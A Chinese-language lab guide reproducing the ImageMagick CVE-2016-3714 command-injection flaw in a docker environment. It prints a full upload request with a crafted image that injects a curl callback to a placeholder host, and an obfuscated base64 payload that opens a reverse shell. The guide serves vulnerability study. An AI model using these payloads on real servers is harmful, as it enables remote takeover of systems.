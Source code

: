 # Imagemagick 命令执行漏洞 CVE-2016–3714

## 漏洞描述

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。但近来有研究者发现，当用户传入一个包含『畸形内容』的图片的时候，就有可能触发命令注入漏洞。

参考链接：

- [https://imagetragick.com](https://imagetragick.com/)
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/ImageTragick/PoCs

## 环境搭建

执行如下命令启动一个包含了Imagemagick 6.9.2-10的PHP服务器：

```
docker-compose up -d
```

## 漏洞复现

访问`http://your-ip:8080/`即可查看到一个上传组件。

发送如下数据包：

```
POST / HTTP/1.1
Host: your-ip:8080
Content-Length: 321
Origin: http://your-ip:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGqvKmZLh7bp9gMc1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8


------WebKitFormBoundaryGqvKmZLh7bp9gMc1
Content-Disposition: form-data; name="file_upload"; filename="avatar.jpg"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.your-domain.cn:2333)'
pop graphic-context
------WebKitFormBoundaryGqvKmZLh7bp9gMc1--
```

![image-20220224112947475](images/202202241129569.png)

`www.your-domain.cn`监听2333端口。可见，2333端口已经接收到http请求，说明curl命令执行成功：

![image-20220224113125611](images/202202241131681.png)

反弹shell（只能使用`/bin/bash`反弹，不能使用`bash`反弹）：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjQzLjIzNy42MS8yMzMzIDA+JjEK | base64 -d | bash`"||id " )'
pop graphic-context
```

监听2333端口，接收反弹shell：

![image-20220224114827774](images/202202241148867.png)

